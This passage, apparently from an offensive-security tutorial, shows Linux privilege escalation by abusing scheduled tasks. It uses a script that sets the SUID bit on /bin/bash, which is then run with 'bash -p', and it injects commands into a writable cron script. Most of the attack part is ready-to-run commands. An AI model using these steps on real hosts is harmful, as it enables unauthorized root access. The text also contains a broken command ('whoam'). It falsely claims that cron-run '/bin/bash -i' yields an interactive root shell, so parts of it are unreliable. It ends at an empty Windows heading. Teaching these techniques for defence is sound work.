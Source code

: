     ```bash
    echo 'chmod +s /bin/bash' > /home/user/systemupdate.sh
    chmod +x /home/user/systemupdate.sh
    ```
    
    - `chmod +s /bin/bash`: This command sets the SUID bit on `/bin/bash`, allowing any user to execute it with root privileges.
    - `chmod +x /home/user/systemupdate.sh`: Makes the script executable.
    
    After waiting for the scheduled task to run, an attacker can escalate their privileges:
    
    ```bash
    /bin/bash -p
    id && whoam
    ```
    
    - `/bin/bash -p`: Executes `/bin/bash` with the `p` option, which prevents the shell from dropping privileges, granting root access.
    - `id && whoami`: Confirms that the user is now operating with root privileges.

---

1. **Cron Job Abuse (Example)**
    
    Another common vector is exploiting cron jobs, which are used to schedule periodic tasks. An attacker can gain root access if a cron job is misconfigured to run a script with weak permissions. For instance, an insecure cron job might look like this:
    
    ```bash
    0 0 * * * /bin/bash /home/user/insecure_script.sh
    ```
    
    If `insecure_script.sh` is writable by the attacker, they can inject malicious commands, such as:
    
    ```bash
    echo '/bin/bash -i' > /home/user/insecure_script.sh
    chmod +x /home/user/insecure_script.sh
    ```
    
    This will allow the attacker to spawn an interactive root shell when the cron job runs.
    

---

### Key Takeaways on Linux Scheduled Task Abuse

- **SUID Misuse**: Setting the SUID bit on critical binaries like `/bin/bash` can provide escalated privileges if the binary is executed by a non-privileged user.
- **Cron Jobs and Insecure Scripts**: Cron jobs that execute scripts with weak permissions can be leveraged to execute arbitrary commands or gain root access.

---

### In-Depth Explanation of Key Commands

### **Windows**
